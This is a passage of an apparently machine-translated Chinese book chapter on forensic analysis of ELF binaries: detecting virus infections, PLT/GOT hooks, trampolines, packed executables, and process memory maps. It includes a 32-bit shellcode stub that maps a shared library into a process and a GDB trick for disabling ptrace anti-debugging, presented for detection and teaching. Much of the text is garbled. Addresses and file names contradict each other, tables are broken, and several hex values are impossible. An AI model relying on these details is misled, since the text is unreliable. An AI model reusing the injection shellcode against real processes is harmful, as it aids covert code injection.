> 与 `libc` 静态链接的二进制文件在 `_start` 中的初始化代码与前面的代码几乎相同，因此相同的规则适用于静态链接的二进制文件。

让我们看另一个被 Retaliation 病毒感染的二进制文件，看看我们在入口点发现了什么类型的异常之处：

```bash
$ readelf -h retval_virus_sample | grep Entry
Entry point address: 0x80f56f
```

通过 `readelf -S` 快速检查节头将证明该地址没有被任何节头覆盖。如果一个可执行文件具有节头，并且存在一个未被节覆盖的执行区域，那么它几乎可以肯定是感染或二进制补丁的迹象。正如我们已经学到的，代码的执行不需要节头，但让我们通过 `readelf -l` 查看程序头，看看它的匹配情况：

```text
Elf file (Executable)
Entry point 0x80f56f
There are 9 program headers, starting at 64

| Type | Offset | VirtAddr | PhysAddr | Flags |
| :--- | :--- | :--- | :--- | :--- |
| PHDR | 0x000000000000040 | 0x000000000000040 | 0x000000000000040 | R |
| LOAD | 0x0000000000001f8 | 0x0000000000001f8 | 0x0000000000001f8 | E 8 |
| INTERP | 0x000000000000238 | 0x000000000000238 | 0x000000000000238 | |
| | 0x00000000000001c | 0x00000000000001c | 0x00000000000001c | R 1 |
| | [Request program interpreter: /lib64/ld-linux-x86-64.so] | | | |
| LOAD | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | |
| LOAD | 0x0000000000001244 | 0x0000000000001244 | 0x0000000000001244 | R 200000 |
| LOAD | 0x0000000000000128 | 0x0000000000000128 | 0x0000000000000128 | R E 200000 |
| | 0x0000000000000638 | 0x0000000000000638 | 0x0000000000000638 | RW |
| DYNAMIC | 0x0000000000000650 | 0x0000000000000650 | 0x0000000000000650 | RWE 200000 |
| | 0x0000000000000190 | 0x0000000000000190 | 0x0000000000000190 | RW 8 |
| LOAD | 0x0000000000003129 | 0x0000000000003129 | 0x0000000000003129 | RWE |
| | 0x000000000000d9a3 | 0x000000000000f4b3 | | RWE 200000 |
```

此输出由于几个原因非常可疑。通常，我们在一个 ELF 可执行文件中只看到两个 LOAD 段——一个用于文本，一个用于数据——尽管这不是一条严格的规定。尽管，这是常态，而这个二进制文件显示了三个段。

此外，这个段被可疑地标记为 RWE（读+写+执行），这表明存在自修改代码，通常用于像这种带有多态性引擎的病毒。入口点指向该段内部，而它本应该指向第一个段（文本段），正如我们所见，该段从虚拟地址 `0x400000` 开始，这是 Linux x86_64 上可执行文件的典型段地址。我们甚至不需要看代码就能很有把握地认为这个二进制文件被补丁了。

但为了验证，如果你正在设计执行二进制文件自动分析的代码，你可以检查入口点的代码，看它是否符合预期的样子，即我们之前看到的库初始化代码。

下面的 `gdb` 命令显示了在 `retinal_virus_sample` 可执行文件入口点找到的反汇编指令：

```gdb
(gdb) x/12 0x80f5f6
0x80f5f6:    push %rdi
0x80f571:    movsl %r15w,%r11ld
0x80f575:    ...
```

我想我们可以快速同意，前面的代码不像我们在未被篡改的可执行文件入口点预期的那样。你只需将其与我们从 `bin` 中看到的预期初始化代码进行比较即可发现这一点。

## 检测 .ctors 段中的异常

检查 `.ctors` 段中的地址是否有效相对容易。构造函数例程应该专门存储在文本段的 `.text` 段内。回想第 2 章《ELF 二进制格式》，`.text` 段并不是文本段，而是存在于文本段范围内的一个节。如果 `.ctors` 段包含任何指向 `.text` 节外部位置的函数指针，那么可能是时候产生怀疑了。

### 关于用于反反调试的 .ctors 说明

某些结合了反调试技术的二进制文件实际上会创建一个合法的构造函数，该函数调用 `ptrace(PTRACE_TRACEME, 0);`。

正如第 4 章《ELF 病毒技术 - Linux/Unix 病毒》中所讨论的，这种技术可以防止调试器附加到进程，除非在任何时刻允许一个跟踪器附加。如果你发现一个二进制文件有一个执行这种反反调试技巧的函数，并且其中包含一个函数指针，那么只需用 `0x00000000` 或 `0xffffffff` 来补丁该函数指针，这将引导 `libc_start_main()` 函数有效地禁用该调试技术。此任务可以在 GDB 中通过 `set` 命令轻松完成：`set {long}address = 0xffffffff`，假设该地址是你想要修改的 `.ctors` 入口点的位置。

## 检测 PLT/GOT 占用者

这种技术可以追溯到 1998 年，当时由 Silvio Cesare 在 http://phrack.org/issues/56/7.html 上发表，该文章讨论了共享库重定向的技术。

在第 2 章《ELF 二进制格式》中，我们仔细检查了动态链接，并解释了 PLT（过程链接表）和 GOT（全局偏移表）的内部工作原理。具体来说，我们查看了懒性链接以及 PLT 如何包含将控制权转移到存储在 GOT 中的地址的结构体。如果共享库函数调用了从未被调用过的 `printf`，那么存储在 GOT 中的地址将指向 PLT，由 PLT 会调用动态链接器，随后在 GOT 中填充指向映射到进程空间的共享库中 `printf` 函数的地址。

静态（静态状态）和热补丁（内存中）修改一个或多个 GOT 条目是很常见的，以便补丁后的函数取代原始函数。我们将检查一个注入了对象文件的二进制文件，该对象文件包含一个简单的向 `stdout` 写入函数。`puts(char *)` 的 GOT 条目已被补丁为指向注入函数的地址。

### Linux 中的 ELF 二进制取证

前三个 GOT 条目是预留的，通常不会被补丁，因为这会导致可执行文件无法正常运行（参见第 2 章《ELF 二进制格式》中动态链接部分）。因此，作为分析师，我们感兴趣的是从 `GOT[3]` 开始的条目。每个 GOT 值应该是一个地址。该地址可以被认为是两个值之一：

- 指回 PLT 的地址指针
- 指向有效共享库函数的地址指针

当二进制文件在磁盘上被感染时（相对于运行时感染），GOT 条目将被补丁为指向二进制文件内注入代码的某个重定位对象文件 (ST_REL)。

在分析被感染的二进制文件的 `.plt` 段时，我们必须仔细验证从 `GOT[4]` 到 `GOT[N]` 的每一个地址。在二进制文件执行之前查看内存中的二进制文件仍然更容易，此时 GOT 条目应该只指向 PLT，因为还没有共享库函数被解析。

使用 `readelf -S` 工具并查找 `.plt` 节，我们可以推出 PLT 的地址范围。在我现在查看的这个 32 位二进制文件中，该范围是 `0x8048300 - 0x80483500`。在查看接下来的 `.plt` 节之前，请记住这个范围。

### readelf -S 命令的截断输出

```
[12] .plt      PROGBITS        08048300 000300 000050 04 AX 0 0 16
```

现在让我们看一眼一个 32 位二进制文件的 `.plt` 节，看看任何相关地址是否在 `0x8048300-0x80483500` 之外：

段 `.plt` 的内容：

```
0x804a00c: 28860408 26830408 36830408 ...
```

现在让我们将这些地址从小端排序中提取出来，并验证它们是否如预期地指向 `.plt` 节内部：

- `08048628`：这没有指向 PLT！
- `08048326`：这是有效的
- `08048336`：这是有效的
- `08048346`：这是有效的

GOT 位置 `0x804a00c` 包含地址 `0x8048628`，它没有指向一个有效位置。我们可以通过使用 `readelf` 查看重定位条目来看到 `0x804a00c` 对应的条目：

| 偏移量 (Offset) | 值 (Value) | 类型 (Type) | 名字 (Name) |
| :--- | :--- | :--- | :--- |
| 0804a00c | 00000107 | R32_JUMP_SL | puts |
| 0804a010 | 00000207 | R32_JUMP_SL | _ |
| 0804a014 | 00000307 | R32_JUMP_SL | _ |
| 0804a018 | 00000407 | R32_JUMP_SL | _ |
| 0804a01c | 00000507 | R32_JUMP_SL | _ |
| 0804a020 | 00000607 | R32_JUMP_SL | _ |
| 0804a024 | 00000707 | R32_JUMP_SL | _ |
| 0804a028 | 00000807 | R32_JUMP_SL | _ |
| 0804a02c | 00000907 | R32_JUMP_SL | _ |
| 0804a030 | 00000a07 | R32_JUMP_SL | _ |
| 0804a034 | 00000b07 | R32_JUMP_SL | _ |
| 0804a038 | 00000c07 | R32_JUMP_SL | _ |
| 0804a03c | 00000d07 | R32_JUMP_SL | _ |
| 0804a040 | 00000e07 | R32_JUMP_SL | _ |
| 0804a044 | 00000f07 | R32_JUMP_SL | _ |
| 0804a048 | 00001007 | R32_JUMP_SL | _ |
| 0804a04c | 00001107 | R32_JUMP_SL | _ |
| 0804a050 | 00001207 | R32_JUMP_SL | _ |


| 0804a054 | 00001307 | R32_JUMP_SL | _ |
| 0804a058 | 00001407 | R32_JUMP_SL | _ |
| 0804a05c | 00001507 | R32_JUMP_SL | _ |

技术上，我们不需要知道这段代码在做什么就能知道 GOT 被劫持了，因为 GOT 应该只指向 PLT，而这显然不是 PLT 地址：

```
0804628: 55              push %ebp
0804629: 89 e5          mov %esp,%ebp
080462b: 83 c5 0c      sub $c,$esp
080462e: c7 44 24 28 05 00 00 movl $5,4(%esp)
0804635: e8 ff ff ff call 804f0 <write>
080464a: c9              leave
080464b: c3              ret
```

进一步的练习是手动消毒此二进制文件，这是我们在 ELF 工作坊中会做的。消毒此二进制文件主要涉及补丁包含指针的 `got.plt` 条目，将其替换为相应的 PLT 存根。

### 检测跳转板

“跳转板”一词用法较松泛，最初被称为内联代码补丁，即通过插入跳转指令覆盖函数序言的开头 5 到 7 个字节。很多情况下，如果补丁的函数需要以原始方式调用，则会将跳转板临时替换为原始代码，然后迅速放回跳转指令。检测这类内联代码钩子非常容易，只要你有可以反汇编二进制文件的程序或脚本，就可以实现某种程度的自动化。

以下是跳转板代码（32 位 x86 汇编）：

- 类型 1：
  ```
  movl $target, %eax
  jmp %eax
  ```

- 类型 2：
  ```
  push $target
  ret
  ```

一篇 1999 年关于在内核空间使用跳转板进行函数劫持的优秀经典文章由 Silvio 编写。这些相同的概念现在可以应用于用户态和内核态；对于内核，你必须禁用 `cr0` 以使文本段可写，或者直接修改 PTE 将给定页面标记为可写。我个人发现后者的成功率更高。关于内核函数跳转板的原始文章可以在此处找到：http://vxheaven.org/lib/vsc08.html。

检测蹦板最快的方法定位每个函数的入口点，并验证前 5 到 7 字节的代码没有翻译为任何类型的分支指令。为 GDB 写一个此类功能的 Python 脚本很容易。我以前很轻松地用过 C 代码来实现。

### 识别寄生代码特征

我们审查了劫持执行流的一些常用方法。如果你能识别出执行流节点，通常就能识别部分或全部寄生代码。在“检测 PLT/GOT hook”部分中，我们通过定位被修改的 PLT/GOT 条目并查看其指向的地址，确定了被劫持 `put()` 函数的位置，在这种情况下，它指向一个包含寄生代码的附加页。

寄生代码可以被定义为异常插入到二进制文件中的代码；换句话说，它并不是由实际 ELF 对象链接器链接的。尽管如此，根据所用技术的不同，有几个特征可以归因于注入代码。

**位置无关代码 (PIC)** 经常用于寄生程序，以便它可以被注入到二进制文件或内存的任何位置，并且无论位置如何都能正常执行。PIC 寄生程序更容易注入到可执行文件中，因为代码插入二进制文件时不需要考虑处理重定位。在某些情况下，例如我的 Linux 填充病毒 http://www.bitlackskeys.org/projects/lpv.c，寄生程序被编译为可执行文件。它本身没有被编译为位置无关，但它没有库链接，并且寄生代码内部采取特殊处理，使用指令指针相对计算来动态解析内存地址。

在许多情况下，寄生代码完全用汇编语言编写，因此作为潜在的寄生程序具有更合理的理想状态，因为它看起来与编译器产生的代码不同。汇编编写的寄生代码的一个线索是处理系统调用的方式。在 C 代码中，系统调用通常通过库函数调用，这些函数会触发实际的系统调用。因此，系统调用看起来就像普通的动态链接函数。在手写汇编代码中，系统调用通常使用 Intel `sysenter` 或 `syscall` 指令来调用，有时甚至使用 `int 0x80`（这被认为是遗留的）。如果存在 `syscall` 指令，我们可能会认为红旗。

### Linux 中的 ELF 二进制法取证

另一个红旗（特别是在分析可能被感染的远程进程时）是看到 `int3` 指令，它可以用于许多用途，例如将控制权交回给执行感染的跟踪进程，或者更令人不安的是，能够触发恶意软件或二进制处理器内部某种类型的反调试机制。

下面的 32 位代码内存映射将一个共享库映射到进程中，然后通过 `int3` 将控制权交回跟踪器。注意 `int 0x80` 被用于调用系统调用。这段 shellcode 实际上很老了；我是我在 2008 年写的。通常现在我们希望使用 `sysenter` 或 `syscall` 指令在 Linux 中调用系统调用，但 `int 0x80` 仍然有效；它只是较慢，因此被弃用了：

```
:start:
    jmp B

A:
    # fd = open("libtest.so.1.0", O_RDONLY);

    xor ecx, %ecx
    mov $5, %al
    pop %ebx
    xor ecx, %ecx
    int $0x80

    subl $24, %esp

    # mmap(0, 8192, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, fd, 0);

    xor edx, %edx
    mov %edx, (%esp)
    mov $8192, 4(%esp)
    mov $7, 8(%esp)
    mov $2, 12(%esp)
    mov %eax, 16(%esp)
    mov %edx, 20(%esp)
    mov $90, %eax
    mov %esp, %ebx
    int $0x80

int3

B:
    call A
    .string "/lib/libtest.so.1.0"
```

## 第 6 章

如果你在磁盘或内存的可执行文件中看到这段代码，你应该迅速得出结论：它看起来不像编译代码。一个明显的线索是使用了 `call/pop` 技术来动态获取 `/lib/libtest.so.1.0` 的地址。字符串存储在 `A` 指令之后，因此其地址被推入栈中，然后你可以看到它被弹出到 `ebx` 中，这并不是传统的编译器代码。

> 此代码段取自我 2009 年编写的一个运行时病毒。我们将在下一章专门介绍对进程内存的分析。

对于运行时分析，感染媒介有很多种，当我们进入第 7 章“进程内存取证”时，我们将涵盖更多关于内存寄生程序识别的内容。

## 检查动态段是否存在 DLL 注入痕迹

回想第 2 章“ELF 二进制格式”，动态段可以在程序头表中找到，其类型为 `PT_DYNAMIC`。还有一个 `.dynamic` 节也指向动态段。

动态段是 `Elf_Dyn` 结构体的数组，包含 `d_tag` 和存在于联合体中的对应值：

```
typedef struct {
    Elf_Xword      d_tag;
    union {
        Elf_Xword      d_val;
        Elf_Addr       d_ptr;
    } d_un;
} Elf_Dyn;
```

使用 `readelf` 我们可以轻松查看文件的动态段。

以下是一个合法动态段的示例：

```
$ readelf -d ./test
```

```
Dynamic section at 0xe28 contains 24 entries:
Tag                             Name/Value
0x0000000000000001 (NEEDED)  Shared library: [libc.so.6]
```

## Linux 中的 ELF 取证

| Tag | Value |
| :--- | :--- |
| 0x000000000000000c (INIT) | 0x404c8 |
| 0x000000000000000d (FINI) | 0x40754 |
| 0x0000000000000019 (INIT_ARRAY) | 0x60e10 |
| 0x000000000000001b (INIT_ARRAYSZ) | 8 (bytes) |
| 0x000000000000001a (FINI_ARRAY) | 0x60e18 |
| 0x000000000000001c (FINI_ARRAYSZ) | 8 (bytes) |
| 0x000000000000ffef (GNU_HASH) | 0x400298 |
| 0x0000000000000005 (STRTAB) | 0x400380 |
| 0x0000000000000006 (SYMTAB) | 0x4002c0 |
| 0x000000000000000a (STRSZ) | 87 (bytes) |
| 0x000000000000000b (SYMENT) | 2 (bytes) |
| 0x0000000000000015 (DEBUG) | 0x0 |
| 0x0000000000000010 (PLTGOT) | 0x601000 |
| 0x0000000000000002 (PLTRELSZ) | 144 (bytes) |
| 0x0000000000000014 (PLTREL) | |
| 0x0000000000000017 (JMPREL) | 0x400438 |
| 0x0000000000000007 (RELA) | 0x400408 |
| 0x0000000000000008 (RELASZ) | 48 (bytes) |
| 0x0000000000000009 (RELAENT) | 24 (bytes) |
| 0x000000006fffff6 (VERNEED) | 0x4003e8 |
| 0x000000006fffff00 (VERNEEDNUM) | 1 |
| 0x000000006fffff00 (VERSYM) | 0x4003d8 |

## 识别反向文本填充感染

这是我们在第 4 节“ELF 病毒技术 - Linux/Unix 病毒”中讨论过的一种病毒感染技术。其原理是病毒或寄生可以通过反向扩展文本段来为自己的代码留出空间。如果你知道要看什么，文本段的程序头看起来会很奇怪。

让我们来看一个被这种方法的病毒感染的 ELF 64 位二进制文件：

```
readelf -l /infected_host1

File type is EXEC (Executable file)
Entry point 0x3c9040
There are 9 program headers, starting at offset 225344

Program Headers:
Type            Offset      VirtAddr        PhysAddr
               Size        MemSize         Flags   Align
PHDR           0x0000000000003740 0x0000000000000040 0x0000000000000040
                               0x00000000000001f8 0x00000000000001f8 R      8
INTERP          0x0000000000003728 0x0000000000000238 0x0000000000000238
                               0x000000000000001c R      1
               [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
LOAD            0x0000000000000000 0x0000000000003f00 0x0000000000003ff00
                               0x00000000000037e4 0x00000000000037e4 RWE    1000
LOAD            0x0000000000003710 0x0000000000000610 0x0000000000000610 RW     1000
                               0x0000000000000248 0x0000000000000250 RW     1000
DYNAMIC         0x0000000000000000 0x00000000000006e8 0x0000000000000628
                               0x00000000000001d0 0x00000000000001d0 RW      8
NOTE            0x0000000000003725 0x0000000000000254 0x0000000000000254
                               0x0000000000000044 0x0000000000000044 R      4
GNU_EH_FRAME    0x0000000000003744 0x0000000000000744 0x0000000000000744
                               0x000000000000004c 0x000000000000004c R      4
GNU_STACK       0x0000000000003700 0x0000000000000000 0x0000000000000000
                               0x0000000000000000 0x0000000000000000 RW     1000
GNU_RELRO        0x00000000000037e0 0x00000000000006e0 0x00000000000006e0
                               0x00000000000001f0 0x00000000000001f0 R      1
```

在 Linux x86_64 上，文本段的默认虚拟地址是 `0x400000`。这是因为链接器在执行此操作时使用了默认的链接脚本。程序头（如上文所示的 PHDR）位于文件偏移 64 字节处，因此其虚拟地址应为 `0x400040`。通过观察输出中的程序头，可以看到文本段（第一行 LOAD）并没有预期的地址；相反，它是 `0x3ff00`。然而，PHDR 的虚拟地址仍然是 `0x400040`，这告诉我们某些情况异常，正如第 4 节“ELF 病毒技术 - Linux/Unix”中所讨论的那样。以下是一个被反向文本感染的可执行文件的 ELF 头：

```
readelf -h ./infected_host1
ELF Header:
Magic: 7f 45 4c 02 01 00 00 00
Class: 64
Data: 2's complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: EXEC (Executable file)
```

## Linux ELF 二进制文件取证

机器: Advanced X86-64

版本: 0x1

入口点地址: 0x3ff040

程序头偏移: 225344 (字节处)

节头部偏移: 0 (字节处)

标志: 0x0

头部大小: 64（字节）

程序头大小: 56 (字节)

程序头数量: 9

节头部大小: 64 (字节)

节头部数量: 0

节头部字符串表: 0

- 入口点指向寄生虫区域
- 我标记了 ELF 头中所有可疑的地方
- 程序头部的大小应仅为 64 字节

## 识别文本段填充

这种感染相对容易检测。这种感染在第 4 节“ELF 病毒 - Linux/Unix”中也讨论过。这种技术依赖于事实：文本段和数据段之间始终有 4096 字节，因为它们是作为段加载到内存的，且内存是页对齐的。在 64 位系统中，通常有 `0x200000` (2MB) 的空空间。这意味着 64 位二进制文件可以插入 2MB 的寄生虫，比通常需要的要大。对于这种感染，你可以通过检查控制流来识别寄生虫的位置。

## 第 6 章

例如我在 2008 年写的 lpv 病毒，入口点被修改为从寄生虫处执行。如果可执行文件具有感染的节头部，你会发现入口点位于文本段范围内。让我们来看一个使用这种技术感染的 32 位可执行文件。以下是 lpv 感染文件的 ELF 头：

```
readelf -h infected.lpv
ELF Header:
Magic: 7f 45 4c 01 01 00 01 00 00
Class: ELF32
Data: 2's complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: EXEC (Executable file)
Machine: Intel 8086
Version: 0x1
入口点地址: 0x0845b8
程序头部偏移: 52 (字节处)
节头部偏移: 8524 (字节处)
标志: 0x0
头部大小: 52 (字节)
程序头大小: 32 (字节)
程序头数量: 9
节头部大小: 40 (字节)
节头部数量: 30
节头部字符串表索引: 27
```

注意入口点地址 `0x8045b8`。这个地址是否指向 `.text` 段内部？查看节头部。以下是 lpv 感染文件的 ELF 节：


## Linux 下的 ELF 二进制取证

入口点地址位于 `.eh_frame` 段内，该段是文本段（text segment）的最后一个段。这显然不是 `.text` 段，这足以立即引起怀疑。而且，由于 `.eh_frame` 段是文本段的最后一个段（你可以通过 `readelf -l` 进行验证），我们能够推断出该病毒可能使用了文本段填充感染（text segment padding infection）。以下是 `lvp` 文件的 ELF 程序头：

```bash
$ readelf -l infected.lvp
```

```
Elf 文件类型为 EXEC（可执行文件）
入口点 0x80485b8
有 9 个程序头，从偏移量 52 开始

程序头（Program Headers）:
| Type | Offset | VirtAddr | PhysAddr | FileSize | Mem | Flg | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PHDR | 0x000003 | 0x08048034 | 0x08048034 | 0x000120 | 0x00120 | R E | 0x4 |
| INTERP | 0x000014 | 0x08048154 | 0x08048154 | 0x000013 | 0x000013 | R | 0x1 |
| [请求解释器: /lib/ld-linux.so.2] | | | | | | | |
| LOAD | 0x000000 | 0x08048000 | 0x08048000 | 0x00d43 | 0x00d43 | R E | 0x1000 |
| LOAD | 0x00010f8 | 0x080490f8 | 0x080490f8 | 0x000118 | 0x0011c | RW | 0x1000 |
| DYNAMIC | 0x0001f14 | 0x080481f4 | 0x080481f4 | 0x000e8 | 0x000e8 | RW | 0x4 |
| NOTE | 0x001168 | 0x08048168 | 0x08048168 | 0x000444 | 0x000444 | R | 0x4 |
| GNU_EH_FRAME | 0x0014dc | 0x080484dc | 0x080484dc | 0x00002c | 0x00002c | R | 0x4 |
| GNU_STACK | 0x001000 | 0x00000000 | 0x00000000 | 0x000000 | 0x000000 | RW | 0x10 |
| GNU_RELO | 0x00010f8 | 0x080490f8 | 0x080490f8 | 0x0000f8 | 0x0000f8 | R | 0x1 |

段映射（Section to mapping）:
段节...
- 00
- 01 .interp
- 02 .interp.note.ABI-tag.gnu.build-id.gnu.hash .dysymstr.gnu.version .gnu_version_r .rel.plt .init .finirodata .eh_frame eh_frame
- 03 .init_array .fini_array .jcr .dynamic .got .data .bss
- 04 .dynamic
- 05
- 06
- 08 .init_array .fini_array .jcr .got
```

根据前面的程序头输出，我们可以看到入口点、文本段（第一个 LOAD 头）以及 `.eh_frame` 是文本段中的最后一个段。

### 识别受保护二进制文件

识别受保护二进制文件是逆向工程的第一步。我们在第 5 章讨论了受保护 ELF 可执行文件的结构。记住，我们了解到受保护二进制文件实际上是合并在一起的：一个存根（stub）执行文件和一个目标执行文件。一个负责解密另一个，后者将作为包装器，其中包含加密的有效负载（payload）。识别这个存根程序通常很容易，因为程序头表中会有明显的异常之处。

让我们看一个受保护的 64 位 ELF 二进制文件，其名为 `elfcrypt`：

```bash
$ readelf -l test.elf
```

```
Elf 文件类型为 EXEC（可执行文件）
入口点 0xa1136
有 2 个程序头，从偏移量 64 开始

程序头（Program Headers）:
| Type | Offset | VirtAddr | PhysAddr | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- |
| | | | | FileSize | MemSize |
| LOAD | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | | |
| | | | | 0x0000000000002470 | 0x0000000000002470 | R E | 0x100 |
| LOAD | 0x0000000000000300 | 0x0000000000000300 | 0x0000000000000300 | | |
| | | | | 0x0000000000002a3f | 0x0000000000003b4df | RW | 0x1000 |
```

在这里我们看到了什么？或者没看到什么？

看起来像是一个静态编译的可执行文件，因为没有 PT_DYNAMIC 段也没有 PT_INTERP 段。然而，如果我们运行二进制文件并检查 `/proc/$pid/maps`，就会发现它不是静态编译的，而是动态链接的。

### Linux 中的 ELF 二进制取证

以下是受保护二进制文件的 `/proc/$pid/maps` 输出：

```
7fa7e5d4000-7fae9d43000 rwx 00000000 00:00
7fa7e9d43000-7fae1a46000 r-p 00000000 00:00
7fa7e1a46000-7fae3001000 r-xp 00000000 08:01 1140696 [/lib/x86_64-linux-gnu/libc.so.6]
7fa7e3001000-7fae5000000 r--p 0001b000 08:01 1140696 [/lib/x86_64-linux-gnu/libc.so.6]
7fa7e5000000-7fae5040000 r-xp 0001a000 08:01 1140696 [/lib/x86_64-linux-gnu/libc.so.6]
7fa7e5040000-7fae5060000 r-xp 0001e000 08:01 1140696 [/lib/x86_64-linux-gnu/libc.so.6]
7fa7e5060000-7fae50b0000 r--p 00000000 00:00
7fa7e50b0000-7fae5340000 r--p 00000000 00:00
7fa7e5340000-7fae6340000 r-wx 00000000 00:00 [stack]
7fa7e6340000-7fae6570000 r--p 00000000 00:00
7fa7e6570000-7fae6a01000 r-xp 00000000 08:01 1140696 [/lib/x86_64-linux-gnu/libc.so.6]
7fa7e6a01000-7fae6a50000 r--p 00000000 00:00
7fa7e6a50000-7fae8570000 r--p 00000000 00:00
```

我们可以看到存根位于 `0xc01000`，Quenya 预言文本段位于 32 位 ELF 可执行文件的预期地址：`0x804800`。

这里是 Quenya 的解包功能来解压缩 `test.packed`：

```bash
$ quenya
```

```
欢迎使用 Quenya v0.1 -- ELF 修改与分析工具
设计与维护者：ElfMaster
输入 'help' 查看命令列表
```

## 第 6 章

请注意，程序头与我们之前看到的可执行文件仍被壳包裹时的完全不同。这是因为我们不再查看外壳（stub）可执行文件。我们查看的是在外壳内部压缩的可执行文件。我们使用的解壳技术非常通用，对于更复杂的保护方案并不有效，但它有助于初学者理解二进制文件逆向工程的过程。

### IDA Pro

由于本书试图重点关注 ELF 格式的剖析以及分析和补丁技术背后的概念，我们并不怎么关注使用哪些花哨的工具。著名的 IDA Pro 软件名之其实归，它是目前公开可用的最好的反汇编器和反编译器。不过它很贵，除非你能买得起许可证，否则你可能只能选择效果稍差的，例如 Hopper。IDA Pro 非常复杂，需要专门的一整本书来介绍，但为了正确理解和使用 IDA 处理 ELF 二进制文件，首先理解书中介绍的概念是有益的，这些概念在使用 IDA Pro 进行软件逆向工程时可以使用。

### 总结

在本章中，你学习了 ELF 二进制文件分析的基础知识。你研究了识别各种类型的病毒感染、函数劫持和二进制保护的步骤。本章将在 ELF 二进制文件分析的初级到中级阶段对你有帮助：寻找什么以及如何识别它。在接下来的章节中，你将涵盖类似的概念，例如分析进程内存以识别后门和内存驻病毒等异常。

对于那些对了解本章描述的方法如何开发反病毒或检测软件感兴趣的人，我确实设计了一些工具，它们利用与本章描述类似的原理来检测 ELF 感染。其中一个工具称为 AVU，在第 4 章《ELF 病毒技术——Linux/Unix 病毒》中提到并提供了下载链接。另一个名为 Arcana，目前仍为内部版本。我个人没有在市场上见过任何对 ELF 二进制文件使用此类启发式方法的公共产品，尽管为了辅助 Linux 二进制取证急需此类工具。在第 8 章《ECFS – 扩展核心文件快照技术》中，我们将探索 ECFS，这是我一直研究的一项旨在改进取证能力不足领域的技术，特别是在进程取证方面。

## 进程内存取证

在上一章中，我们研究了在 Linux 中分析 ELF 二进制文件的关键方法和途径，特别是涉及恶意软件时，以及检测可执行代码中存在寄体的方法。

正如攻击者可能会对磁盘上的二进制文件进行补丁，他们也可以对内存中运行的程序进行补丁以实现目标，同时避免被寻找文件修改的程序（如 tripwire）检测到。这种对进程映像的热补丁（hot patching）可用于劫持函数、注入共享库、执行内存驻留后门、病毒、键盘记录器和隐藏进程所需的寄体。

> 攻击者可以运行在现有进程地址空间内隐藏的复杂程序。这已经通过 Saruman v0.1 证明，该工具可以在 http://www.bitlackacks.org#saruman 获取。

在进行取证或运行时分析时对进程映像的检查与查看普通的 ELF 二进制文件非常相似。进程地址空间中有更多的段和整体活动部分，且 ELF 可执行文件将经历一些变化，例如运行时重定位、段对齐和 bss 扩展。

然而，在现实，ELF 可执行文件和实际运行程序的调查步骤非常相似。运行程序最初是由加载到地址空间的 ELF 镜像创建的。因此，理解 ELF 格式将有助于理解进程在内存中的样子。

### 进程看起来像什么样？

任何 Linux 系统上的一个重要文件是 `/proc/$pid/maps` 文件。该文件显示了运行程序的整个进程地址空间，我经常解析它来确定进程内某些文件或内存映射的位置。

在安装了 Grsecurity 补丁的内核上，如果启用，它们将清空 `/proc/$pid/maps` 文件，导致你看不到地址空间。这使得从外部解析进程变得有些困难，你必须依靠其他技术，例如解析 ELF 头并在此基础上进行。

> 在下一章中，我们将讨论 ECFS 扩展核心文件快照，这是一种新的 ELF 文件格式，在普通核心文件的基础上进行了扩展，并包含了大量的取证相关数据。

以下是 hello_world 程序进程内存布局的示例：

```bash
$ cat /proc/$pid/maps
```

```
00000000-00410000 r-xp 00000000 00:1b /home/ryan/hello_world
00600000-00610000 r--s-- 00000000 01:0b /home/ryan/hello_world
00610000-00620000 rw-p 00000000 01:0b /home/ryan/hello_world
0174e000-0176f000 r-s-- 00000000 00:00 [heap]
7fd3dc9c5a700-7fd3dc9c76200 r-xp 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
7fd3dc9c76200-7fd3dc9c96100 r--p 00000000 01:0b 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
```


# 进程内存映射分析

以下是简单的 Hello World 程序的进程地址空间映射输出：

```
7fd3dc9c96100-7fd3dc9c6500 r--p 00000000 01:0b 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
7fd3dc9c96500-7fd3dc9c97600 rw-p 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
7fd3dc9c97600-7fd3dc9c98700 r--p 00000000 00:00 /lib/x86_64-linux-gnu/ld-2.19.so
7fd3dc9c98700-7fd3dc9c9a500 r--p 00000000 08:01 1406093
7fd3dc9c9a500-7fd3dc9c8c800 r--p 00000000 00:00 /lib/x86_64-linux-gnu/ld-2.19.so
7fd3dc9c8c800-7fd3dc9c8e200 rw-p 00000000 08:01 1406096
7fd3dc9c8e200-7fd3dc9c9b100 rw-p 00000000 02:00 /lib/x86_64-linux-gnu/ld-2.19.so
7fd3dc9c9b100-7fd3dc9c9b00 rw-p 00000000 00:00 00
7fff0975f000-7fff09780000 r--p 00000000 00:00 [stack]
7fff097b2000-7fff097b4000 r-xp 00000000 00:00 [vdso]
ffffffff6000-ffffffff6100 r-xp 00000000 00:00 [syscall]
```

前面的 map 输出显示了简单的 Hello World 程序的进程地址空间。让我们分段查看并解释每个部分。

## 可执行内存映射

前几行是可执行文件本身的内存映射。这很明显，因为在文件映射末尾显示了可执行文件的路径：

```
00400000-04010000 r-xp 00000000 001b 8126525 /home/ryan/hello_world
00600000-06010000 r--p 00000000 001b 8126525 /home/ryan/hello_world
00601000-00602000 rw-p 00001000 001b 8126525 /home/ryan/hello_world
```

我们可以看到：

- 第一行是代码段（text segment），很容易判断，因为权限是可读可执行。
- 第二行是数据段（data segment）的第一部分，由于 RELRO（只读重定位）安全保护被标记为只读。
- 第三处映射是数据段的剩余部分，仍然是可写的。

### 程序堆

堆通常在数据段之后增长。在 ASLR 存在之前，它是从数据段地址结束处扩展的。如今，堆段是随机映射的，但在 maps 文件中数据段之后可以找到：

```
017e4f00-0176f000 rw-p 00000000 00:00 0 [heap]
```

还有匿名内存映射，当调用 `malloc()` 请求内存大小超过 `MMAP_THRESHOLD` 时可能会创建。这些类型的匿名内存段不会被标记 `[heap]` 标签。

### 共享库映射

